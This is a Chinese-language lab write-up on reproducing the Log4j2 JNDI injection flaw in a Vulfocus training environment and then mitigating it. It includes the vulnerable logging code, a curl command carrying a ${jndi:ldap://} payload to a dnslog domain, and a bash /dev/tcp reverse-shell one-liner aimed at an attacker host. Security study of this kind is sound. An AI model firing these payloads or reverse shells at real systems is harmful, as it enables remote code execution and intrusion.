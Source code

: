 # Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞
![](./启动vulfocus.png)
## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL
![](./log4j漏洞环境启动.png)
## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机
![](./容器名称.png)
![](./进入容器环境.png)
![](./克隆.jar包到宿主机.png)
## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分
![](./反编译源码.png)
## 分析源码得到漏洞片段代码漏洞核心位于 /hello 接口的 logger.error() 或 logger.info() 调用处，当用户控制的 payload 参数包含 JNDI注入恶意字符串 时，会触发远程代码执行（RCE）
~~~
@GetMapping({"/hello"})
@ResponseBody
public String hello(String payload) {
    // 危险：临时启用JNDI远程代码加载（实际环境中绝对禁止！）
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLcodebase", "true");
    
    // 漏洞触发点：直接记录未过滤的用户输入
    logger.error("{}", payload);  // 使用占位符仍不安全（低版本Log4j2）
    logger.info("{}", payload);
    logger.info(payload);         // 直接记录风险最高
    logger.error(payload);
    return "ok";
}
~~~
## 攻击流程：
### 1.应用记录日志时解析 ${jndi:ldap://...}。
### 2.向恶意LDAP服务器请求 Exploit.class。
### 3.加载并执行远程恶意代码。

## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名
![](./获取dns.png)
## 使用curl指令触发一次域名解析请求
![](./触发域名解析请求.png)
![](./请求记录.png)

### 此处我通过运行curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行
![](./报错分析.png)

## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用
![](./反弹shell.png)
## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag
![](./漏洞flag.png)

### 其中遇到了运行bash -i >& /dev/tcp/192.168.164.4/7777 0>&1进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误
![](./负载测试报错分析.png)
![](./靶机测试有效负载报错.png)
### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录
![](./修改环境变量.png)
![](./验证变量修改.png)
![](./无解析请求.png)
